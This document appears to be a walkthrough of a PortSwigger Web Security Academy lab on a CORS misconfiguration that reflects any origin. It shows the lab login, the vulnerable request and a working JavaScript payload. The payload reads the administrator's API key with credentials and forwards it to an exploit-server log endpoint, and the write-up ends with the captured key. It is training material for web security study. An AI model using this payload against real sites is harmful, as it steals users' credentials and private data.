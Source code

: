 This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`.

When logging in  with the user, there is an AJAX request being performed to `/accountDetails` that retrieves us the user's API key: 
![](imgs/cors_basic_origin_reflection.png)

We can see that there is an `Access-Control-Allow-Credentials` header, which basically tells us that maybe there is a CORS misconfiguration.

Sending the same request but with an `Origin` header (as if we were calling this endppoint from a malicious script) returns us a 200 OK: 
![](imgs/cors_basic_origin_reflection-1.png)

The CORS is misconfigured to allow the retrieval of data from a malicious source.

Let's create the payload that retrieves the API key:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0abd00c204747139805badf1004b0061.web-security-academy.net/',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
This will send all the JSON info in the request to the Exploit server.
![](imgs/cors_basic_origin_reflection-2.png)
Enviando el payload vemos la request con la key:
![](imgs/cors_basic_origin_reflection-3.png)

Enviando la key tenemos la respuesta: 
`cxVB7FcrjaqNEbXQWrwcVFvIaXZC7WED`

![](imgs/cors_basic_origin_reflection-4.png)

